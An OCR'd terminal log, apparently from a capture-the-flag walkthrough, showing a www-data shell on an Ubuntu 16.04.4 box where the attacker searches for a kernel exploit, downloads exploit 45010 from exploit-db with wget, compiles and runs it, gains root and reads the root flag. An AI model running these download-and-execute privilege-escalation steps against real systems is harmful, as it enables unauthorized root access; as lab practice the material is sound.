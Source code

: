 └─$ echo -ne 'ippsec' | md5sum

366a74cb3c959de17d61db30591c39d1  -


www-data@ubuntu:/home/saket$ echo ippsec | md5sum
echo ippsec | md5sum
6210ff70fb143e19111c6166a185a3d8  -



www-data@ubuntu:/var/www/html$ cat /proc/version

─$ searchsploit ubuntu 16.04.4
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                              | linux/local/44298.c

└─$ wget https://www.exploit-db.com/download/45010                                            

www-data@ubuntu:~$ gcc 45010.c -o 45010
www-data@ubuntu:~$ ./45010

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
cat /root/root.txt
b2b17036da1de94cfb024540a8e7075a
